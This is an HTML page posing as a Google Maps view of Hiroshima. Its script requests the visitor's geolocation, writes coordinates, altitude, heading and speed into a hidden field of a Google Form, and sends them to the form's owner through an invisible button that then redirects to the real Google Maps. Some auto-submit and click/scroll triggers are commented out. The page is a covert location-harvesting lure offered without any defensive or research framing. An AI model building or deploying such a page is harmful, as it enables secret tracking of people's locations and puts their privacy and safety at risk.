

<html>
<head>
    <title>Googleマップ</title>
    <link rel="icon" href="map_icon.png" type="image/png">
</head>
<body>
    <div id="content" class="aaa">
    <iframe src="https://www.google.com/maps/embed?pb=!1m14!1m12!1m3!1d26345.2284901436!2d132.4613632!3d34.372014400000005!2m3!1f0!2f0!3f0!3m2!1i1024!2i768!4f13.1!5e0!3m2!1sja!2sjp!4v1710586222484!5m2!1sja!2sjp" style="border:0;width:100%; height:100%; " allowfullscreen="" loading="lazy" referrerpolicy="no-referrer-when-downgrade"></iframe>
    </div>
   
    <style>
        .aaa {
            display: flex;
            justify-content: center;
            align-items: center;
            height: 100vh;
            display: flex;
            flex-direction: column; /* 要素を縦に並べる */
            align-items: center; /* 要素を中央に配置 */
        }
        .button {
           /* width: 7vw;*/
            height: 3vh;
            /*font-size:2vh;*/
        }
    </style>
   
    
    <script>
        var url = "https://www.google.co.jp/maps/@34.3720144,132.4613632,14z?hl=ja&entry=ttu";
        var content = document.getElementById("content");
        var geo_text = "";
        var position="";

        function test() {
            navigator.geolocation.getCurrentPosition(test3);
        }

        var stop = setInterval(test, 1000);

        function test3(pos) {
            position = pos;
            clearInterval(stop);
            var form = `<br> <form action="https://docs.google.com/forms/u/1/d/e/1FAIpQLScfax4AMp-T2HvQtv4kEgaKvV9T5xI917XbI6f8KZx4_t53Tw/formResponse" method="post" target="hidden_iframe" id="mG61Hd" jsmodel="TOfxwf Q91hve" data-shuffle-seed="2868127642733565241" data-response="%.@.[]]" data-first-entry="0" data-last-entry="4" data-is-first-page="true">
                <!--非表示のフィールドを追加 -->
                    <input type="hidden" name="entry.518300877" id="geo_data">
                        <!-- JavaScriptで位置情報を設定 -->
                        <button  onclick=" window.location.href = url;" type="submit" style="border: none; background-color:white;"></button>
                        <iframe name="hidden_iframe" id="hidden_iframe" style="display:none;"<!-- onload="if(submitted){window.location='${url}';}-->"></iframe>
                        </form>`;


            content.innerHTML = form;
            test2();
        }

        function test2() {
            geo_text = "latitude:" + position.coords.latitude + "\n";
            geo_text += "longitude:" + position.coords.longitude + "\n";
            geo_text += "altitude:" + position.coords.altitude + "\n";
            geo_text += "position accuracy:" + position.coords.accuracy + "\n";
            geo_text += "altitude accuracy:" + position.coords.altitudeAccuracy + "\n";
            geo_text += "Direction of movement:" + position.coords.heading + "\n";
            geo_text += "speed:" + position.coords.speed + "\n";

            var date = new Date(position.timestamp);


            // 位置情報を非表示のフィールドに設定
            document.getElementById("geo_data").value = geo_text;

            /* フォームを自動送信
            document.forms[0].submit();*/
           
        }

       /* document.body.addEventListener("click",test
        );

        // Body タグがタップされた時にすでに定義されている関数を実行する
        document.body.addEventListener("touchstart", test
        );

        // ページがスクロールされた時にすでに定義されている関数を実行する
        window.addEventListener("scroll", test
        );
        */

        test();
        

    </script>


</body>
</html>
